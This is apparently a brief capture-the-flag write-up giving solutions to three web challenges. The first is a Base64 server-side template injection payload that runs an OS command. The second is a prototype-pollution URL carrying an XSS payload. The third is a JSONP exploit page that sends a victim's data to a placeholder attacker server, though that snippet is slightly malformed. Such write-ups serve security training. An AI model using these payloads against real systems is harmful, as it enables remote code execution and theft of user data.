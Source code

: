 ## Challenge-1 (SSTI): 
Change **color** in cookie to this payload:

    e3sgc2VsZi5fX2luaXRfXy5fX2dsb2JhbHNfXy5fX2J1aWx0aW5zX18uX19pbXBvcnRfXygnb3MnKS5wb3BlbignaWQnKS5yZWFkKCkgfX0=

It is Base64 of this payload that makes SSTI to **RCE**

    {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}


## Challenge-2 (Prototype Pollution): 

    https://pwn2pine-SERVER/2?__proto__[payload]=%3Cimg/src/onerror=alert()%3E&info=payload


## Challenge-3 (JSONP Vulnerability):

     <html>
     <body>
         <script>
             function MyFunc(data) {
             var xhttp = new XMLHttpRequest();
             xhttp.onreadystatechange = function() {
             xhttp.open("GET", "http://ATTACKER-SERVER?data=" + data, true);
             xhttp.send();
             }
         </script>
         <script src="https://pwn2pine-SERVER/jsonp?callback=MyFunc&id=admin"></script>
     </body>
     </html>
